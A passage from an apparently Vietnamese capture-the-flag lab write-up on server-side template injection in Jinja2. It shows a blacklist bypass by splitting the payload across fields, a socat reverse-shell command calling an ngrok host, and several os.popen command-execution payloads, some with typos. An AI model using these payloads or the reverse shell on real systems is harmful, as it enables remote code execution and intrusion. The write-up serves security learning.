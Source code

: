 Ngoài ra còn có blacklist:

```
blacklist = ['{{','}}','{%','%}','import','eval','builtins','class','[',']']

```

Tuy vậy phân tích source code có thể nhận thấy rằng có 1 lỗ hổng có thể bypass qua hàm santized():

```
I'm sending you the details of the application in the attached CSV file:

 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'
 
 ```
 
Bằng việc tách payload SSTI để bypass của hàm santized sau đó khi qua thì chúng sẽ được nối lại với nhau và thực hiện được trong template engine.
Ta thực hiệ tách như sau:  

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab03_02.jpg)
 
Nhưng vì đây là blind SSTI, ta có thể thực hiện revershell đến ngrok của mình host.

> https://www.revshells.com/ : socat TCP:0.tcp.ap.ngrok.io:11193 EXEC:sh

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab03_03.jpg)

Lấy flag: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab03_04.jpg)


```
Sử dụng và hình thành payload cho ssti. Ở bài này ta xây dựng payload dựa trên template jinja2 và dựa trên TemplateReference:

_ Trong jinja2 template, ta có thể sử dụng templateReference obj của để tận dụng lại code blocks từ template. Ví dụ để tránh viết lại tiêu đề trên các mẫu,
ta có thể set title trong {% block title %} và truy xuất chúng với {{ self.title() }}

_ Build classic payload: ý tưởng cổ điển hay đơn giản nhất ở đây là dùng templateReference obj để truy cập hàm __builtins__ và sử dụng hàm __import__ để import ra module mà ta muốn, chẳng hạn thường dùng ở đây là import os. Để làm điều này thì đầu tiên ta phải khai báo trước biến toàn cục là __globals__ bằng
cách sử dụng path classic:  self.__init__.__globals__. Như hình ở bên dưới, thì ở đây khi khởi tạo và gọi được biến cục bộ là __globals__, ta có thể gọi ra được hàm __builtins__ . Tập hợp các hàm như hình bên dưới là hàm nguyên bản trong python nên ta kh cần phải khai báo thư viện để gọi nó ra. 

```
![image](https://user-images.githubusercontent.com/104350480/218769160-1e7c5b67-7c9e-4d83-97a9-01531a105cd7.png)
```
Thì sau khi dùng self.__init__.__globals__. để gọi ra và truy cập được hàm __builtins__ thì ta có thể sử dụng hàm __import__ để import ra module os, module os
cung cấp cho ta chức năng để tương tác với hệ điều hành cũng như các thông tin liên quan đến nó. Cụ thể trong hàm này sau khi import được module os, ta dùng
hàm os.popen() để mở tệp và thực thi 1 lệnh bên trong () và nó trả về 1 đối tượng được kết nối với 1 pipe. Hay cũng thường dùng là os.system() là 1 hàm cho phép ta thực thi lệnh trong hệ thống hay lệnh shell từ trong tập lệnh của python. Có 3 tải trọng luôn cho phép được truy cập vào hệ điều hành python như:
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}

Từ đây ta có thể tự hiểu và xây được những payload chính gốc nhất có thể dùng bất cứ khi nào miễn là kh bị filter :
{{ self.__TemplateReference__context.cycler.__init__.__globals__os.popen('cmd').read() }}
{{ self.__TempalteReference__context.joiner.__init__.__globals__os.popen('cmd').read() }}
```